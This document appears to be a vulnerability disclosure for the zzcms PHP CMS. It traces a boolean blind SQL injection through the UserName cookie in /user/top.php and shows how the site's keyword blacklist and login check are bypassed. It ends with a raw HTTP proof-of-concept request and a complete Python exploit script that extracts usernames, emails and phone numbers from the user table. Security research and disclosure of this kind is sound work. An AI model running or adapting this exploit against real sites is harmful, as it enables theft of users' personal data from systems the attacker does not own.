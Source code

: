 # /user/top.php
First we can find sql operation in `/user/top.php`
```php
function ShowUserSf(){
	if ($_COOKIE["UserName"]<>"" ){
		$sql="select groupname,grouppic from zzcms_usergroup where groupid=(select groupid from zzcms_user where username='".$_COOKIE["UserName"]."')";
        $rs=query($sql);
		$row=fetch_array($rs);
		$rownum=num_rows($rs);
		if ($rownum){
        $str= "<b>".$row["groupname"]."</b><img src='../".$row["grouppic"]."'> " ;
		}
 		   
		$sql="select groupid,totleRMB,startdate,enddate from zzcms_user where username='" .$_COOKIE["UserName"]. "'";
        $rs=query($sql);
		$row=fetch_array($rs);
		$rownum=num_rows($rs);
		if ($rownum){
			if ($row["groupid"]>1){
			$str=$str ."服务时间：".$row["startdate"]." 至 ".$row["enddate"];
			}elseif ($row["groupid"]==1){
			$str=$str . "<a href='../one/vipuser.php' target='_blank'>查看我的权限</a>";
			}
		}else{
			$str=$str . "用户不存在";
		}		
		
	}else{
	$str=$str. "您尚未登录";
	}
echo $str;			 
}
?>	
```

It seems vulnerable to boolean based blind sql injection since parameter `$_COOKIE["UserName"]` is not filterd

By finding usage, we can find `/user/ask.php` is one of pages who include `/user/top.php` 

```php
<?php
include("top.php");
?>
```

In `/user/ask.php`
```php
<?php
include("../inc/conn.php");
include("check.php");
?>
```

`check.php` is used to check whether visitor has logged in
```php
<?php
if (!isset($_COOKIE["UserName"]) || !isset($_COOKIE["PassWord"])){
    echo "<script>location.href='/user/login.php';</script>";
}else{
    //verify username and password
}
?>
```
if the attacker submits cookies like `Cookie: UserName=foo`, without `PassWord`, only codes in `if` will be executed. However, codes in `if` merely echo javascript to html. As a result, the rest of codes in `ask.php` which use parameter `$_COOKIE["UserName"]` will still be executed.

In `/inc/conn.php`, we can find
```php
include(zzcmsroot."/inc/stopsqlin.php");
```

and in `/inc/stopsqlin.php`
```php
function stopsqlin($str){
if(!is_array($str)) {//有数组数据会传过来比如代理留言中的省份$_POST['province'][$i]
	$str=strtolower($str);//否则过过滤不全
	
	$sql_injdata = "";
	$sql_injdata= $sql_injdata."|".stopwords;
	$sql_injdata=CutFenGeXian($sql_injdata,"|");
	
    $sql_inj = explode("|",$sql_injdata);
	for ($i=0; $i< count($sql_inj);$i++){
		if (@strpos($str,$sql_inj[$i])!==false) {showmsg ("参数中含有非法字符 [".$sql_inj[$i]."] 系统不与处理");}
	}
}	
}
	
$r_url=strtolower($_SERVER["REQUEST_URI"]);
if (checksqlin=="Yes") {
if (strpos($r_url,"siteconfig.php")==0 && strpos($r_url,"label")==0 && strpos($r_url,"template.php")==0) {
foreach ($_GET as $get_key=>$get_var){ stopsqlin($get_var);} /* 过滤所有GET过来的变量 */      
foreach ($_POST as $post_key=>$post_var){ stopsqlin($post_var);	}/* 过滤所有POST过来的变量 */
foreach ($_COOKIE as $cookie_key=>$cookie_var){ stopsqlin($cookie_var);	}/* 过滤所有COOKIE过来的变量 */
foreach ($_REQUEST as $request_key=>$request_var){ stopsqlin($request_var);	}/* 过滤所有request过来的变量 */
}
}
?>
```
which means all parameters in `$_GET`, `$_POST`, `$_COOKIE`, `$_REQUEST` are filterd while blacklist--`stopwords` is defined in `/inc/config.php`

```php
define('stopwords','select|update|and|or|delete|insert|truncate|char|into|iframe|script|得普利麻|易瑞沙|益赛普|赫赛汀|日达仙|百泌达|多吉美|拜科奇|赛美维|施多宁|派罗欣|妥塞敏|格列卫|特罗凯|手机窃听器|手枪') ;//网站禁用关键字
```

Although we can't use `select` and `or`, we can still query in the same table `zzcms_user`

![](https://raw.githubusercontent.com/Ling-Yizhou/zzcms-vuln/master/img/columns.png)

# POC
```
GET /user/ask.php HTTP/1.1
User-Agent: PostmanRuntime/7.25.0
Accept: */*
Cache-Control: no-cache
Postman-Token: 61080183-d3aa-4674-943d-dfb56440c9ac
Host: 127.0.0.1
Accept-Encoding: gzip, deflate
Connection: close
Cookie: UserName=' || '1'='1'#
```


![](https://raw.githubusercontent.com/Ling-Yizhou/zzcms-vuln/master/img/boolture.png)
![](https://raw.githubusercontent.com/Ling-Yizhou/zzcms-vuln/master/img/boolfalse.png)




# exp
```python3
import requests
import string

url = 'http://127.0.0.1/user/ask.php'
result = []


def get_column_by_id(uid, column):
    result = ''
    for x in range(50):
        flag = 1
        for i in string.ascii_letters + string.digits + '@.':
            cookies = {
                'UserName': f"' || {column} like '{result}{i}%' && id = {uid}#"
            }
            response = requests.get(url, cookies=cookies)
            # print(response.text)
            if "查看我的权限</a>)" in response.text:
                result += i
                break
            if i == '.':
                flag = 0

        if flag == 0:
            break

        print(f'[+] id: {uid}, {column}: ' + result)
    return result


for uid in range(1, 10):
    column_list = ['username','email','phone']
    tmp = [get_column_by_id(uid, i) for i in column_list]
    if '' not in tmp:
        result.append(tmp)

print(result)
```
Results
![](https://raw.githubusercontent.com/Ling-Yizhou/zzcms-vuln/master/img/sqli.png)
